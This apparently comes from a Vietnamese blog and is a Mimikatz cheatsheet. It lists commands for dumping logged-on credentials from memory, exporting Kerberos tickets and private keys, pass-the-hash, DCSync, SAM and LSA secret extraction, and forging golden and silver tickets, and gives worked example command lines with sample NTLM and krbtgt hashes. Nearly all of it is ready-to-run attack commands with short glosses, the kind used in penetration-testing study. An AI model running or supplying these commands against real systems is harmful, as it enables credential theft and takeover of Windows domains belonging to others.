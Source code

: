 ```yaml
---
title: "Mimikatz"
date: "2024-11-19"
excerpt: "Mimikatz cheatsheet ;>"
featured: "/images/ad_attack.jpg"
---
```


## Mimikatz

__#general__

`privilege::debug`: để truy cập thông tin nhạy cảm từ bộ nhớ hệ thống.
`log`: bắt đầu ghi log vào file mặc định (mimikatz.log)
`log customlogfilename.log`: khi log vào file cụ thể

__#sekurlsa__

`sekurlsa::logonpasswords`: trích xuất thông tin đăng nhập của các tài khoản đang đăng nhập trên hệ thống.
`sekurlsa::logonPasswords full`: chi tiết hơn
`sekurlsa::tickets /export`: xuất tất cả các Kerberos tickets từ bộ nhớ ra file `.kirbi`
`sekurlsa::pth`: Path-the-hash => Sử dụng NTLM hash của 1 tài khoản để xác thực mà không cần mật khẩu.
```
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

__#kerberos__

`kerberos::list /export`: liệt kê các kerberos ticket hiện tại và xuất chúng ra file `.kirbi`.
`kerberos::ptt c:\chocolate.kirbi`: Tải một vé Kerberos từ file chocolate.kirbi vào bộ nhớ để sử dụng.
`kerberos::golden`: Tạo golden ticket giả mạo 
```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

__#crypto__

`crypto::capi`: Kiểm tra các key quản lý bởi CryptoAPI.
`crypto::cng`: Kiểm tra các key được quản lý bởi Crypto Next Generation (CNG).
`crypto::certificates /export`: xuất chứng chỉ từ kho lưu trữ người dùng.
`crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE`: Xuất chứng chỉ từ kho lưu trữ của máy cục bộ.
`crypto::keys /export`: Xuất các private keys được quản lý bởi CryptoAPI.
`crypto::keys /machine /export`: Xuất các private keys thuộc về máy cục bộ.

__#vault & lsadump__

`vault::cred`: trích xuất thông tin đăng nhập từ Window Vault
`vault::list`: liệt kê các vault hiện tại trên máy
`token::elevate`: Tăng cấp quyền bằng cách sử dụng token bảo mật cao hơn.
`lsadump::sam`: Trích xuất thông tin tài khoản cục bộ từ SAM (Security Account Manager).
`lsadump::secrets`: Trích xuất secret keys từ LSA Secrets.
`lsadump::cache`: Trích xuất thông tin xác thực Kerberos được lưu trong bộ nhớ cache.
`lsadump::dcsync`: Mô phỏng hành vi của một Domain Controller để trích xuất hash của tài khoản domain (ví dụ: tài khoản krbtgt).

__#pth (Pass-the-Hash)__

`sekurlsa::pth`: Thực hiện xác thực mà không cần mật khẩu, chỉ dùng NTLM hash hoặc AES keys.

__#ekeys__

`sekurlsa::ekeys`: Liệt kê các encryption keys từ bộ nhớ của hệ thống.

__#dpapi__

`sekurlsa::dpapi`: Trích xuất các DPAPI keys (Data Protection API), cần thiết để giải mã dữ liệu được bảo vệ trên Windows.

__#minidump__

`sekurlsa::minidump lsass.dmp`: Tải file dump của tiến trình LSASS để phân tích ngoại tuyến.

__#ptt__

`kerberos::ptt Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi`: Tải 1 vé kergeros cụ thế vào bộ nhớ.

__#golden/silver__
`kerberos::golden`

Tạo Golden Ticket để có quyền truy cập domain.
Tùy chọn bổ sung:
- /id: Xác định RID (Relative ID).
- /groups: Gán nhóm cho vé.

__kerberos::silver__

Tạo Silver Ticket, chỉ có hiệu lực với một dịch vụ cụ thể.

__#tgt__

`kerberos::tgt`: Trích xuất Ticket Granting Ticket (TGT) từ bộ nhớ.

__#purge__

`kerberos::purge`: Xóa tất cả vé Kerberos khỏi bộ nhớ.